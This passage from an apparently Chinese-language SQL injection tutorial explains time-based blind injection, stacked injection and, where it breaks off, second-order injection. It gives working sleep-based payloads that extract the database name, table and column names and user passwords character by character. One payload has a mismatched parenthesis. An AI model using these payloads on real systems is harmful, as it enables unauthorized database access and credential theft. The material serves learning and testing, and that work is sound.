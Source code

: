 ### 时间盲注
当页面只有一个回显结果时，可以采用时间盲注，通过页面的响应时间来判断
可以进行延时的函数有:`sleep`、`benchmark`、`get_lock`，还有笛卡尔积等
payload和布尔盲注基本一致，只是多了一个条件来判断延时 `if(expr1,expr2,expr3)`

```sql
if(length(database())>5,sleep(3),1)  --+ 数据库名大于5则休眠3秒

if((ascii(substr(database(),1,1)))>120,sleep(3),1) --+ 数据库第一个字符大于120则休眠3秒

if((ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))>120,sleep(3),1)--+ 获取表名

if((ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))))>100,sleep(3),1)--+ 获取列名

if((ascii(substr(( select password from users limit 0,1),1,1)))>1,sleep(3),1)--+  获取密码

```
<br/>

## 堆叠注入
因为`;`是sql语句的结束符，在支持多语句执行的情况下，可以在后面添加其他sql语句并让其执行。但是堆叠注入存在局限性，可能受到API、数据库引擎不支持的限制或者权限不足等。
在php中，`mysqli_query`只能执行一次查询，不支持堆叠，而`mysqli_multi_query`允许多次查询，支持堆叠。
```sql
mysql> select @@version ; select user();
+-----------+
| @@version |
+-----------+
| 8.0.12    |
+-----------+
1 row in set (0.01 sec)

+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)
```
<br/>

## 二次注入
当用户构造的恶意语句存储在数据库中，如果再次从数据库中取出这个“脏数据”使用，那么就可能会产生二次注入